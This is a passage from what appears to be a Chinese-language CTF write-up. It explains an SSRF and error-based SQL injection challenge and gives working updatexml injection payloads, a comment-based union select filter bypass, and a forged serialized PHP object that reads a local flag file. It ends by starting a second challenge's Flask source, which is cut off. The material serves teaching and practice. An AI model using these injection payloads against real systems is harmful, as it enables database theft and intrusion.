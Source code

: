```php
        return preg_match("/^(((http(s?))\:\/\/)?)([0-9a-zA-Z\-]+\.)+[a-zA-Z]{2,6}(\:[0-9]+)?(\/\S*)?$/i", $blog);
    }

}
```

可以发现输入的 `blog` 处存在 SSRF，并且对 `blog` 字符串的模式做了限制。

先随便注册一个账号，查看账号信息会访问到 `view.php?no=1`，这里存在 SQL 注入。

```
no=1 and updatexml(1,concat('~',(select group_concat(table_name) from information_schema.tables where table_schema=database()),'~'),1)--

no=1 and updatexml(1,concat('~',(select group_concat(column_name) from information_schema.columns where table_name='users'),'~'),1)--

no=1 and updatexml(1,concat('~',(select data from users),'~'),1)--
```

可以发现存在 `no,username,passwd,data` 这些字段，并且 `data` 字段存放了序列化的 User 对象。

那么我们可以构造一个 `User` 使得他的 `blog` 指向 flag 文件。这样就可以绕过 `user.php` 的检查。

构造序列化对象：
```php
$a = new UserInfo('merc','10','file:///var/www/html/flag.php');
echo serialize($a);
```

另外 `union select` 被过滤，需要注释绕过。
```
no=-1'union/**/select 1,2,3,'O:8:"UserInfo":3:{s:4:"name";s:4:"merc";s:3:"age";i:10;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'--
```

## [De1CTF 2019]SSRF Me

iec
```python
from flask import Flask
from flask import request
import socket
import hashlib
import urllib
import sys
import os
import json
reload(sys)
sys.setdefaultencoding('latin1')

app = Flask(__name__)

secert_key = os.urandom(16)


class Task:
    def __init__(self, action, param, sign, ip):
        self.action = action
        self.param = param
        self.sign = sign
        self.sandbox = md5(ip)
        if(not os.path.exists(self.sandbox)):          #SandBox For Remote_Addr
            os.mkdir(self.sandbox)

    def Exec(self):
```